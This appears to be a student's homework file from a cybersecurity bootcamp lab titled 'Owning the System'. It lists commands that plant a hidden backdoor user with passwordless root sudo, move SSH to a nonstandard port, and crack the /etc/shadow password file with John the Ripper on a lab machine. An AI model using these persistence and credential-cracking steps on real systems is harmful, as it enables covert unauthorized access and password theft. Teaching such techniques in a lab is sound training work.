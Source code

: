 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser --no-create-home sysd` 
   
2. Give your secret user a password: 
    - `no command, answered promps as directed`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 869 sysd`

    <img src="C:\Users\Rob\Desktop\University-of-Minnesota-\week6\IMAGE\sysdID.png"> 

    ![description](IMAGE/sysdID.png)

    4. Give your secret user the same GID:
    - `sudo groupmod -g 869 sysd`

    <img src="/week6/IMAGE/sysdID.png"> 

        ![description](IMAGE/sysdID.png)

5. Give your secret user full `sudo` access without the need for a password:
   -  sudo visudo
   -  enter pass word
   -  /etc/sudoers.tmp folder
   -  # User privilege specification
   -  root    ALL=(ALL:ALL) ALL
   -  sysd    ALL=(ALL:ALL) NOPASSWD:ALL

    <img src="/week6/IMAGE/su_acc_nopass.png"> 

    ![description](IMAGE/su_acc_nopass.png)


6. Test that `sudo` access works without your password:

    - sudo -l 
    - (ALL : ALL) NOPASSWD: ALL   

NOTE: there are many other ways to modify your user. Here is another example that accomplishes similar tasks that are asked in the homework questions but done in one command: 

sudo adduser --no-create-home --uid 869 --disabled-password sysd

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    -sudo nano /etc/ssh/sshd_config
    - Port 2222

    <img src="/week6/IMAGE/step_2.png"> 

    ![description](IMAGE/step_2.png)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysadmin@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

    <img src="/week6/IMAGE/step3_1.png"> 

    ![description](IMAGE/step3_1.png)

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`

    <img src="/week6/IMAGE/passwd8.png"> 

    ![description](IMAGE/passwd8.png)


---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

